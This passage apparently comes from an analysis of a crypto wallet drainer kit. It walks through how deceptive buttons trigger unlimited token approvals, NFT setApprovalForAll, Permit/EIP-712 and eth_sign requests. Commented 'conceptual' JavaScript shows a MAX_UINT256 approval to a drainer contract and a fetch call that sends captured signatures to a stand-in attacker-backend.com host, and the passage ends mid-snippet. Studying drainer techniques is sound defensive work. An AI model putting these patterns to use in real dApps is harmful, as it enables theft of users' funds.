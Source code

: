 ### 3.4. Crafting and Presenting Malicious Requests (`drainer.js`, `approval-handler.js`)

*   **Execution Step 4: User Interacts with a Malicious Action Button (e.g., "Claim," "Mint," "Approve Spend").**
    *   **Logic:** An event listener on a deceptive action button triggers a function designed to request a malicious signature or transaction approval.
    *   **Functionality:** The frontend code, often guided by instructions or configurations received from the backend (as suggested by the report's description of C2 interaction), determines the type of malicious request:
        *   **ERC20 Approvals:** Request approval for a large amount (e.g., `MAX_UINT256`) of a specific token to be spent by the attacker's drainer contract.
        *   **NFT Approvals:** Request `setApprovalForAll` for one or more NFT contracts, giving the drainer contract control over all victim's NFTs from that collection.
        *   **Permit/EIP-712 Signatures:** Request an off-chain signature for EIP-2612 (Permit for ERC20s) or EIP-712 typed data (e.g., for Seaport marketplace orders, as highlighted in advanced drainer analyses in the report).
        *   **`eth_sign`:** For more direct control or to exploit vulnerabilities, though less common for simple drains due to strong wallet warnings.
    *   **Code Concept (Report Implication for ERC20 Approval):**
        ```javascript
        // Conceptual snippet for requesting token approval
        async function requestTokenApproval(tokenAddress, spenderAddress, amount) {
            // const tokenContract = new ethers.Contract(tokenAddress, ERC20_ABI, signer);
            // try {
            //    const tx = await tokenContract.approve(spenderAddress, amount);
            //    await tx.wait();
            //    // Notify backend of successful approval
            //    sendApprovalStatusToBackend({ token: tokenAddress, spender: spenderAddress, status: 'success', txHash: tx.hash });
            // } catch (error) {
            //    console.error("Approval failed or rejected", error);
            //    // Notify backend of failure
            //    sendApprovalStatusToBackend({ token: tokenAddress, spender: spenderAddress, status: 'failed' });
            // }
        }
        // document.getElementById('claimButton').addEventListener('click', () => {
        //    requestTokenApproval(TARGET_TOKEN_ADDRESS, DRAINER_CONTRACT_ADDRESS, MAX_UINT256);
        // });
        ```
    *   **Data Flow:** Transaction parameters (token address, spender address, amount) are used. The user is prompted by their wallet to sign/approve. The result (transaction hash if on-chain, signature if off-chain) is captured.
    *   **Report Reference:** Detailed in "Victim's Wallet Interaction & Exploitation" and component breakdowns for frontend and Web3 layer.

### 3.5. Sending Data to Backend (`drainer.js`, `api-client.js`)

*   **Execution Step 5: Transmitting Captured Data to Backend.**
    *   **Logic:** After the user signs a transaction or message, the frontend code captures the result (e.g., transaction hash for an approval, or the signature itself for an off-chain message).
    *   **Code Concept (Report Implication):**
        ```javascript
        // Conceptual snippet
        async function sendDataToBackend(payload) {
            // try {
            //    const response = await fetch('https://attacker-backend.com/api/submit_data', {
            //        method: 'POST',
            //        headers: { 'Content-Type': 'application/json' },
            //        body: JSON.stringify(payload)
            //    });